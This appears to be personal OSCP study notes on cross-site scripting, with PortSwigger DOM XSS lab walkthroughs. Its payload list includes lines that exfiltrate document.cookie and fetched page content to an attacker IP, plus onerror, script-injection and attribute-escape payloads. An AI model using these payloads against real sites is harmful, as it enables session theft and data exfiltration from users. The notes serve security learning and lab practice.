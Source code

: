 ```yaml
---
description: Do all of them, it don't matter if it feel stupid
---
```


# XSS

{% embed url="https://brandonrussell.io/OSCP-Notes/XXMore.html" %}

```
; breaks current command
// comments out rest
<script>alert(1)</script>
javascript:
Escaping attribute tags and payload using repo

#load image
<img src="http://10.10.14.6/image.png" onerror=alert(1)/>

#load script
<script src="http://10.10.14.6/script.js"></script>

#script.js
fetch('http://10.10.14.6/from_script/' + document.cookie);

#load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

{% embed url="https://medium.com/@sevenoffsec/portswiggers-xss-labs-solved-with-explanation-part-1-678206556964" %}

> Well, you should know when and how to spot XSS. Regarding OSCP exam, I don’t think XSS will be there since your goal is getting RCE on the target machine.
>
> Yes, some HTB boxes have “bot” which clicks on XSS link and then you see HTTP request on your server. But I don’t think this is going to appear in your exam.

> If the user-supplied input is printed inside an HTML attribute, you also need to escape quotation marks or you would be vulnerable inputs like this:
>
> ```xml
> " onload="javascript-code" foobar="
> ```
>
> You should also escape the ampersand character as it generally needs to be encoded inside HTML documents and might otherwise destroy your layout.
>
> So you should take care of the following characters: < > & ' "
>
> You should however not completely strip them but replace them with the correct HTML codes i.e. _\&lt; \&gt; \&amp; \&quot; \&#x27;_

## Define

### DOM XSS

Document Object Model

Data from attacker-controllable source (eg. URL) is passed to a 'sink' where dynamic code execution takes place

## Labs

### Lab 3 (DOM)

<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Our goal is to escape the search query and execute our malicious code, so that's in the `trackSearch` funciton \[SINK]

Where do we enter this code? The query variable which fetches our input via `window.location.search`

```
'"><script>alert(1)</script>
```

### Lab 4 (DOM)

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

The `innerHTML` sink doesn’t accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements.

```
"><img src=x onerror=alert(1)>
```

### Lab 5 (DOM)

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

An XSS output should be seen visually so sending payloads via Repeater may not be the smartest play

Like before, try escape the query statement before executing script

{% code overflow="wrap" %}
```
https://website/product?productId=3&storeId=%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E
```
{% endcode %}

Burp showed GET method wasn't allowed so my guess is this was still sent via POST

### Lab 6 (XSS attribute encoded angle brackets)

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

As seen, we are working with the input tag, can't use `<script>` &#x20;

```
<input onfocus=javascript:alert(1) autofocus>
?search=a"onfocus%3Djavascript%3Aalert(1)+autofocus
```

`onfocus` basically performs the specific action when that field is clicked/used and `autofocus` does it auto

